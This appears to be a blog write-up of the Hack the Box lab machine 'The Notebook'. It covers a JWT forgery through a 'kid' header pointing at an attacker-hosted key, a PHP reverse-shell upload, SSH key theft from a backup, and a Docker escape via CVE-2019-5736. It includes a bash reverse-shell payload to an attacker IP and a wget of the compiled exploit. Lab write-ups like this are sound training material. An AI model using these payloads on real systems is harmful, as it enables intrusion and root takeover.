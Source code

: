+++
author = "Nick"
categories = ["hack the box", "medium", "enum4linux", "JWT", "burpsuite", "docker", "runc", "reverse shell", "CVE-2019-5736"]
date = 2021-07-31T15:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2021/07/noetbook.png"
slug = "hack-the-box-the-notebook"
summary = "Welcome! Today's write-up is for the Hack the Box machine - The Notebook. This machine is listed as a medium difficulty Linux machine. It's pretty straight forward, so let's jump in"
tags = ["hack the box", "medium", "enum4linux", "JWT", "burpsuite", "docker", "runc", "reverse shell", "CVE-2019-5736"]
title = "Hack the Box - The Notebook"

+++


Welcome! Today's write-up is for the Hack the Box machine - The Notebook. This machine is listed as a medium difficulty Linux machine. It's pretty straight forward, so let's jump in.

As always, we start our enumeration with `nmap`. Here are our results:

```
Nmap scan report for 10.10.10.230
Host is up (0.053s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
10010/tcp filtered rxapi
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nothing too crazy, only one obscure port - 10010. So we'll see what's being hosted on port 80.

When we visit the site, we see a basic landing page. We have two options, `Register` and `login`. When we click the register link, we are brought to a page to do just that.

{{< figure src="__GHOST_URL__/content/images/2021/07/image.png" >}}

The login page is simliar as well.

{{< figure src="__GHOST_URL__/content/images/2021/07/image-1.png" >}}

We don't see anything in the source for the pages, so we'll start some enumeration with `ffuf`. 

Command:
`ffuf -u http://10.10.10.230/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt`

We get back limited results.

```
login                   [Status: 200, Size: 1250, Words: 173, Lines: 31]
register                [Status: 200, Size: 1422, Words: 193, Lines: 33]
admin                   [Status: 403, Size: 9, Words: 1, Lines: 1]
logout                  [Status: 302, Size: 209, Words: 22, Lines: 4]
```

Now we'll load up `Burpsuite` and start looking at what the site is doing. Once we have that loaded up, we create an account. We now have access to a new section called Notes. During the authentication processes, we see an authentication cookie get passed:

{{< figure src="__GHOST_URL__/content/images/2021/07/image-2.png" >}}

We know it's as `JWT` token due to it's formatting.

{{< figure src="__GHOST_URL__/content/images/2021/07/image-5.png" >}}

The yellow portion is the `Header`, the green portion is the `payload` and the blue is the verification signature. 

Now if we take this data, and drop it into [JWT.io](https://jwt.io) we can see the decoded data:

{{< figure src="__GHOST_URL__/content/images/2021/07/image-6.png" >}}

What's good is that we can see that the `privKey` value on the local machine. So we're going to try and create our own `JWT` token with an `admin_cap` variable set to `true`. There are a few ways to do this, in my case, quickly generating the value via the CLI was how I did it.

Commands:
`echo '{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.15:7070/privKey.key"}' | base64`
The above will create our `Header` value on the token.

`echo '{"username":"bobbillby","email":"bob@rootflag.io","admin_cap":true}' | base64`
This will create the `Payload` value on the token.

Now we have two sets of token values, we need to create a key to match our signature portion.

Command:
`ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key`

Then we can host that key on our local machine on the same ports:

Command:
`python -m SimpleHTTPServer 7070`

Now we can take our generated outputs from above, and paste them into JWT.io to get our proper admin cookie.

{{< figure src="__GHOST_URL__/content/images/2021/07/image-7.png" >}}

Now armed with this value, we need to modify our current cookie session value. Simply open up our `Developer tools` and head over to the Storage tab. Here we can see the values of the cookies for this site:

{{< figure src="__GHOST_URL__/content/images/2021/07/image-8.png" >}}

Let's add our new JWT token and refresh. We should now see an `Admin Panel` section in our header!

{{< figure src="__GHOST_URL__/content/images/2021/07/image-9.png" >}}

In this section, we see that we can view notes and upload a file. This is probably where we're going to upload our reverse shell!

{{< figure src="__GHOST_URL__/content/images/2021/07/image-10.png" >}}

I tend to always use [Pentest Monkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) shell. So, now we just upload it.

{{< figure src="__GHOST_URL__/content/images/2021/07/image-11.png" >}}

Make sure you have a listener running before we view the file on the port you specified, otherwise you'll miss the connection.

{{< figure src="__GHOST_URL__/content/images/2021/07/image-12.png" >}}

We then catch our shell! Awesome, a foothold. Now we need to start enumerating internally. We'll copy over `linpeas.sh` and see what we can find.

{{< figure src="__GHOST_URL__/content/images/2021/07/image-13.png" >}}

We see an interesting entry in our `backups` location - `home.tar.gz`. So we'll view the contents of this file.

Command:
`tar -tvf home.tar.gz`

{{< figure src="__GHOST_URL__/content/images/2021/07/image-14.png" >}}

We see an `.ssh` directory. So we're going to want to extract the files and copy the key to our local machine to see if it works.

Command:
`tar -xvf home.tar.gz -C /tmp/temp` <= We created this directory, you don't need to. You can use whatever path you want.

Now we can navigate to the .ssh key and snag our key.

{{< figure src="__GHOST_URL__/content/images/2021/07/image-15.png" >}}

We can copy this over by whatever means you like. Then we try to `SSH` into the target as Noah using this key.

Commands:
`chmod 0400 noah-key`
`ssh -i noah-key noah@10.10.10.230`

Once we get in, we snag our `user.txt` flag!

{{< figure src="__GHOST_URL__/content/images/2021/07/image-16.png" >}}

Now we're in as a user, we can enumerate a bit further with more priviledges. I always run `sudo -l` once I get onto a box, it usually has a good path forward.

{{< figure src="__GHOST_URL__/content/images/2021/07/image-17.png" >}}

Since `linpeas.sh` is still on the machine, we'll re-run that to start. Shortly into the run, we find that `runc` is on the machine.

{{< figure src="__GHOST_URL__/content/images/2021/07/image-18.png" >}}

Some googling around leads us to CVE-2019-5736. [Here's a run down](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/) of the CVE. It's not too hard to find a PoC for this CVE, we have [one here](https://github.com/Frichetten/CVE-2019-5736-PoC). We do meet the requirements for this PoC, we have root access to a container. 

First let's clone the repo down to our machine.

Command:
`git clone https://github.com/Frichetten/CVE-2019-5736-PoC`

Now we need to modify the `main.go` file in order to modify the payload. We're going to give the payload a shell back to us:

`#!/bin/bash \n bash -i >& /dev/tcp/10.10.14.15/6969 0>&1`

Now we can rebuild the application.

Command:
`go build main.go`

Now we can host a file server in this location.

Command:
`python3 -m SimpleHTTPServer 80`

We now want to gain a shell into our `Docker` container.

Command:
`sudo /usr/bin/docker exec -it webapp-dev01 sh`

Now we'll download our compiled exploit.

Command:
`wget 10.10.14.15/main`

Now make it executable.

Command:
`chmod +x main`

Now we run the exloit.

Command:
`./main`

{{< figure src="__GHOST_URL__/content/images/2021/07/image-19.png" >}}

Now to trigger this fully, we need to run another docker command, same as above.

Command:
`sudo /usr/bin/docker exec -it webapp-dev01 sh`

Once we run that, we should see our listener light up!

{{< figure src="__GHOST_URL__/content/images/2021/07/image-20.png" >}}

There we have it, root access!

Another box down, semi-realistic as well. If you found the write-up useful, send some respect my way!

HTB Profile - https://app.hackthebox.eu/profile/95635



